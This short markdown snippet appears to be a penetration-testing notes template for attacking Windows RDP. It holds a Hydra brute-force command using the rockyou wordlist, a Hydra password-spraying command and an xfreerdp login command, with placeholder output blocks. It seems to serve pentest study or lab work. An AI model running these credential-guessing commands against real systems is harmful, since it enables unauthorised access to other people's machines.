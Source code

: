 # Hydra (RDP Brute Force)
```bash
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt rdp://$IP_ADDRESS:$PORT -t 4 -V
```
```
<insert hydra output here>
```
# Password Spraying (if there’s a known password)
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "$PASSWORD" rdp://$IP_ADDRESS
```
```
<insert hydra output here>
```
# Connecting to RDP
```bash
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[WINDOWS IP] +clipboard
```
